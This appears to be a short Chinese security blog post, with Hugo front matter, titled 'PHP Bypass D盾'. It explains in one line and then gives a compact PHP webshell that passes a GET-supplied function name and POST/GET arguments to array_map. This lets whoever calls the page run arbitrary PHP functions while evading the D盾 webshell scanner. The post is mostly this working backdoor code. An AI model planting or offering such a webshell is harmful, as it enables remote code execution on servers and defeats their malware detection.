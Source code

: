 ```yaml
---
title: "PHP Bypass D盾"
date: 2018-02-06T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['php','bypass']
categories: ['web','bypass']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



PHP Bypass D盾

<!--more-->

**原理**

通过 array_map 对 GET 的参数进行回调, 其中 1 为回调函数, 2 和 3 分别为在回调函数内的 POST 和 GET 参数

```
<?php

@$a = array($_POST['2'],$_GET['3']);
@array_map($b=$_GET['1'],$c=$a);

?>
```